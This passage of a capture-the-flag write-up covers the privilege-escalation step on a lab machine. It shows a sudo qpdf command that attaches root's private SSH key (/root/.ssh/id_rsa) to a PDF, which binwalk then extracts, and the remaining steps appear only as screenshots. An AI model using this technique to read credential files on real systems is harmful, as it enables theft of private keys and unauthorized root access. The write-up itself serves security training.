 ![Untitled]({{ '/assets/images/ba630cd8-86fc-43bd-940e-64d07fdc32c5-export-64a52758-d783-44f4-a968-9e5d0789b7e6/ba630cd8-86fc-43bd-940e-64d07fdc32c5-export-64a52758-d783-44f4-a968-9e5d0789b7e6_Untitled_25.png' | relative_url }})
<br/><br/>
User flag got it.
<br/><br/>
# 3.Priv esc
<br/><br/>
![Untitled]({{ '/assets/images/ba630cd8-86fc-43bd-940e-64d07fdc32c5-export-64a52758-d783-44f4-a968-9e5d0789b7e6/ba630cd8-86fc-43bd-940e-64d07fdc32c5-export-64a52758-d783-44f4-a968-9e5d0789b7e6_Untitled_26.png' | relative_url }})
<br/><br/>
qpdf binary is using root privileges, after some research we found that it is possible to attach files to a pdf, so use:
<br/><br/>
```bash
sudo qpdf --empty --add-attachment /root/.ssh/id_rsa --mimetype text/plain -- .pdf
```
<br/><br/>
![Untitled]({{ '/assets/images/ba630cd8-86fc-43bd-940e-64d07fdc32c5-export-64a52758-d783-44f4-a968-9e5d0789b7e6/ba630cd8-86fc-43bd-940e-64d07fdc32c5-export-64a52758-d783-44f4-a968-9e5d0789b7e6_Untitled_27.png' | relative_url }})
<br/><br/>
Once we create the pdf use binwalk to identify frimwares attached on a binary.
<br/><br/>
`-e` is used to extract files found during scanning
<br/><br/>
![Untitled]({{ '/assets/images/ba630cd8-86fc-43bd-940e-64d07fdc32c5-export-64a52758-d783-44f4-a968-9e5d0789b7e6/ba630cd8-86fc-43bd-940e-64d07fdc32c5-export-64a52758-d783-44f4-a968-9e5d0789b7e6_Untitled_28.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/ba630cd8-86fc-43bd-940e-64d07fdc32c5-export-64a52758-d783-44f4-a968-9e5d0789b7e6/ba630cd8-86fc-43bd-940e-64d07fdc32c5-export-64a52758-d783-44f4-a968-9e5d0789b7e6_Untitled_29.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/ba630cd8-86fc-43bd-940e-64d07fdc32c5-export-64a52758-d783-44f4-a968-9e5d0789b7e6/ba630cd8-86fc-43bd-940e-64d07fdc32c5-export-64a52758-d783-44f4-a968-9e5d0789b7e6_Untitled_30.png' | relative_url }})
<br/><br/>
Machine pwned!!!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
